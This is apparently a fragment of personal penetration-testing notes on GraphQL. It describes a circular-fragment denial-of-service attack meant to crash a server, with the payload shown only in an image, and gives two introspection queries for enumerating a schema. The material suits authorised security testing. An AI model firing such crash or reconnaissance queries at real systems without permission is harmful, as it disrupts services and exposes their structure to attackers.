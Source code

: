 Here we are creating two fragments on the `PasteObject` object style called `Start` and `End`, which call each other:

![[Capture d’écran 2023-07-29 012710.png]]

This will crash server instantly

on a real target that uses a properly designed GraphQL engine, **this attack should not work**. **But Test IT !!!!**


# Information Disclosure

```json
query {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
  }
}
```

or for more schema infos : 

```json
query {
  __schema {
    queryType { 
      name
      kind
      fields {
        name
      }
    }
    mutationType { 
      name
      kind
      fields {
        name
      } 
    }
    subscriptionType { 
      name
      kind
      fields {
        name
      }
    }
  }
}
```

- If **Introspection is Disabled** you cant do this 
